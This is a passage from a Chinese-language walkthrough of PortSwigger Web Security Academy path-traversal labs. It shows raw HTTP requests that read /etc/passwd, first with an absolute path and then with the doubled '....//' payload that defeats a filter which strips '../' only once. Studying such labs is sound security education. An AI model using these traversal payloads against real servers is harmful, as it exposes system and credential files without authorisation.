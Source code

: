 直接给绝对路径读取到了。

```http
GET /image?filename=/etc/passwd HTTP/2
Host: 0a3d00a704959656870b472000a700e8.web-security-academy.net
Cookie: session=LEYsrWlzEuXb1g6J2N5zwBGhSmBwwok4
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a3d00a704959656870b472000a700e8.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
......
```

#### Lab: File path traversal, traversal sequences stripped non-recursively

题意：应用过滤删除用户输入的文件名中的特殊字符。

正常的跳跃无法读取文件内容。

```plaintext
../../../etc/passwd
```

看了答案和 [z3nsh3ll](https://www.youtube.com/watch?v=n0M-nOEB6a8) 的讲解才发现是剔除了 ../，因此尝试尝试双写绕过。

```plaintext
....//....//....//etc/passwd
```

最终变成。

```plaintext
../../../etc/passwd
```

成功解决。

```http
GET /image?filename=./....//....//....//....//etc/passwd HTTP/2
Host: 0aa70075038c7b9580342bf200ff0002.web-security-academy.net
Cookie: session=6AXaJ0hgRNKXET1q8LIdWP3S4ycWCR7W
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a12005003ec689a81e0f336000c003c.web-security-academy.net/product?productId=1
```